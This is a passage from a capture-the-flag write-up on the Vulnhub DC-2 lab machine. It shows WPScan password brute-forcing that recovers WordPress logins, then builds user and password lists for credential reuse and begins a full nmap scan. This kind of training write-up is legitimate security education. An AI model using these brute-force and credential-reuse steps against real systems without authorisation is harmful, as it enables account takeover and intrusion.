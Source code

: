 ```bash
[SUCCESS] - jerry / adipiscing                                                                                                                                                                                                              
[SUCCESS] - tom / parturient                                                                                                                                                                                                                
Trying admin / log Time: 00:01:16 <==============================================================================================                                                                       > (649 / 1127) 57.58%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Mar 26 20:17:45 2023
[+] Requests Done: 802
[+] Cached Requests: 51
[+] Data Sent: 360.477 KB
[+] Data Received: 424.827 KB
[+] Memory used: 254.453 MB
[+] Elapsed time: 00:01:24

```
With wpscan we were able to discover some credentials. Those should be added to our notes as well.
 - Credentials
    - `jerry:adipiscing`
    - `tom:parturient`

Let's try to logon to WordPress with jerry and browse the content in the administration panel.

![Image](/assets/img/WriteUp/Vulnhub/DC2/Pasted image 20230326210429.png){: width="700" height="400" }

This hint tells us that we might be able to logon somewhere else with those credentials.
Let's create a username list and password list before we continue with discovering other services.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ nano users.txt  

┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ cat users.txt                  
tom
jerry

┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ nano passwords.txt

┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ cat passwords.txt
adipiscing
parturient

```
We did run a quick port scan with nmap and did not discover all ports and services yet.
Let's run nmap again, but this time with a more advanced port scan.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ sudo nmap -sC -sV -T4 -A -p- $ip
[sudo] password for emvee: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 21:09 CEST
Nmap scan report for dc-2 (10.0.2.31)
```